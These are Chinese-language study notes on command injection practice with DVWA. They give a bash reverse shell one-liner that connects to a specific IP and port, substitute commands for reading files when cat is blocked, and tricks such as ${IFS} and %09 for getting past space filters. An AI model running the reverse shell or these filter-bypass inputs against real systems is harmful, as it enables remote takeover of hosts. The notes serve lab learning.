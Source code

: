 windows、linux基本命令：https://blog.csdn.net/wsnbbz/article/details/103304217

dvwa乱码问题：在DVWA\dvwa\include\imagepage.ini.php文件中第一个“charset=utf-8”,修改为“charset=gb2312”,即可解决

##### 反弹shell

`bash -i >& /dev/tcp/47.93.163.187/8087 0>&1`

#### 绕过方法

##### 一、常见可代替命令

```bash
more	# 一页一页的显示档案内容
less	# 与 more 类似
head	# 查看头几行
tac		# 从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail	# 查看尾几行
nl		# 显示的时候，顺便输出行号
od		# 以八进制的方式读取档案内容
vi		# 一种编辑器，这个也可以查看
vim		# 一种编辑器，这个也可以查看
sort	# 可以查看
uniq	# 可以查看
ls		# 查看目录
dir		# 查看目录
```

##### 二、空格被过滤绕过

空格可以用以下字符串代替：

```
< 、<>、%09(tab键)、%20(空格)、${IFS}、{}
```

**$IFS**

​	在Linux中，`$IFS` 是一个特殊的环境变量，代表着 "Internal Field Separator"，即内部字段分隔符。这个变量用于指定在Shell中如何分隔输入的字段（或称为单词）。默认情况下，`$IFS` 包含了三个空白字符：空格、制表符（Tab）、换行符。这意味着在Shell中，输入的字段会根据这些空白字符被自动分隔为多个单词。

​	当我们在在Shell中运行一个命令时，Shell会将输入的命令行参数根据 `$IFS` 的设置进行拆分，然后将拆分后的部分传递给相应的命令。

例如，假设有一个包含多个单词的变量：

```
sentence="This is a sentence."
```

如果我们将 `$IFS` 设置为默认值，即空白字符，那么可以通过 `for` 循环遍历每个单词：

```bash
IFS_old=$IFS  # 保存旧的 $IFS 值
IFS=" "      # 设置 $IFS 为空格字符

for word in $sentence; do
    echo "$word"
done

IFS=$IFS_old  # 恢复旧的 $IFS 值
```
